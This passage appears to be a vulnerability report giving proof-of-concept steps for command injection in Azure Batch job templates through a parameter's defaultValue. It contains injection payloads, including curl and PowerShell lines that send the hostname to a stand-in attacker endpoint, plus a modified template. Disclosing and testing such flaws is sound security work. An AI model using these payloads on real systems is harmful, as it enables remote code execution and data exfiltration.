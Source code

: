     1.  **Prepare a Malicious Job Template:** Modify an existing `job.template.json` (e.g., `templates/blender/render-default-linux/job.template.json`) or create a new one. Locate a parameter that is used in the task command line (e.g., "optionalParameters" in Blender templates).
    2.  **Inject Malicious Command Payload:** Set the `defaultValue` of the chosen parameter in the `job.template.json` to a malicious payload designed to execute a simple command on the target operating system of the compute nodes (Linux or Windows).
        *   **Linux Payload Example:**  `; touch /tmp/pwned ;`  (creates a file `/tmp/pwned`) or  `; curl -X POST -d "$(hostname)" <attacker_controlled_endpoint> ;` (exfiltrates hostname to attacker server).
        *   **Windows Payload Example:**  `& echo pwned > C:\pwned.txt &` (creates a file `C:\pwned.txt` with content "pwned") or `& powershell -Command "Invoke-WebRequest -Uri 'http://attacker.example.com/pwned' -Method Post -Body (hostname)" &` (exfiltrates hostname using PowerShell). Replace `<attacker_controlled_endpoint>` or `http://attacker.example.com/pwned` with a URL you control to receive the exfiltrated data if testing data exfiltration.
        Example modification in `job.template.json` for "optionalParameters":
        ```json
        {
           "name": "optionalParameters",
           "type": "string",
           "defaultValue": "; touch /tmp/pwned",
           "metadata": {
             "description": "Optional parameters"
           }
         }
        ```
    3.  **Submit a Job using the Malicious Template:** Use Azure Batch CLI, Batch Explorer, or any tool that utilizes job templates to submit a new job based on the modified `job.template.json`. Select the appropriate template and configure any other necessary job settings. Ensure the job targets a pool where tasks will be executed.
    4.  **Monitor Task Execution:** Monitor the job and task status in Azure Batch. Wait until the task starts running and completes.
    5.  **Verify Command Execution:**
        *   **Method 1: Access Compute Node (If Possible):** If you have access to the compute node (e.g., via SSH/RDP and Batch node agent), connect to the node and check for the execution of your injected command. For example, on Linux, check if the file `/tmp/pwned` was created using `ls /tmp/pwned`. On Windows, check for `C:\pwned.txt`.
        *   **Method 2: Data Exfiltration Verification:** If you used a data exfiltration payload (e.g., `curl` or `Invoke-WebRequest`), monitor your attacker-controlled endpoint for incoming HTTP requests. If you receive a request from the Batch compute node, it confirms command execution and network connectivity from the node.
        *   **Method 3: Task Logs:** Examine the task logs ( `stdout.txt`, `stderr.txt`) in Azure Batch Explorer or via Azure CLI. Look for any output or errors that might indicate the execution of your injected command. Note that direct output from commands like `touch` might not be visible in logs, but errors or side effects might be. For commands like `curl`, you might see connection attempts or error messages in the logs.
    6.  **Confirmation:** If you successfully verify the creation of the file, data exfiltration, or observe other expected side effects of your injected command, the command injection vulnerability is confirmed.